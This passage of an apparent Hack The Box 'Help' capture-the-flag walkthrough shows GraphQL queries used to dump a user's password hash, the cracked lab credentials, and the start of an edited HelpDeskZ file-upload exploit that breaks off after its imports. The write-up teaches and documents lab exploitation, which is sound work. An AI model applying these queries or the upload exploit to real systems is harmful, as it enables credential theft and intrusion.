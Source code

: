 ![](/images/hackthebox/help/12.png)
<br> That's fine, I tried requesting a query, for example `user` : `http://help.htb:3000/graphql?query={user}` :
![](/images/hackthebox/help/13.png)
<br> It says that `user` must have a selection of subfields so I tried `username` : `http://help.htb:3000/graphql?query={user{username}}` :
![](/images/hackthebox/help/14.png)
<br> Great, let's get the password : `http://help.htb:3000/graphql?query={user{password}}` :
![](/images/hackthebox/help/15.png)
<br> I used [crackstation](https://crackstation.net/) to crack the hash and got this password : 
`5d3c93182bb20f07b994a7f617e99cff` : `godhelpmeplz`
<br> Now we have the credentials : `helpme@helpme.com : godhelpmeplz`
<br>
<hr>
## File Upload Exploitation, Reverse Shell and User Flag
<br> I edited the path of the uploads in the exploit, instead of `helpdeskzBaseUrl+md5hash+'.php'` I made it `helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'` (I got this path from the [github repository](https://github.com/evolutionscript/HelpDeskZ-1.0)). Exploit after edits :
```
import hashlib
import time
import sys
import requests

```